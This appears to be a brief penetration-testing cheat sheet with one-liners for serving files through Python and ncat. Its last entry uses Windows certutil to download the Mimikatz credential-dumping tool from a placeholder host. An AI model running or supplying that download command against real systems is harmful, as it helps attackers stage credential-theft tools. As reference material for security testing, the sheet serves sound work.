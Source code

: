 # Helpers

[Serving Files](#serving-files)

## Serving Files

**With python:**
```
python -m SimpleHTTPServer 8000
```

**With ncat:**
```
ncat -lk -p 8080 --sh-exec "echo -e 'HTTP/1.1 200 OK\r\n'; cat index.html"
```

## Download Files

**Windows certutil:**
```
certutil.exe -urlcache -split -f http://myhost/mimikatz.b64 mimikatz.b64
```
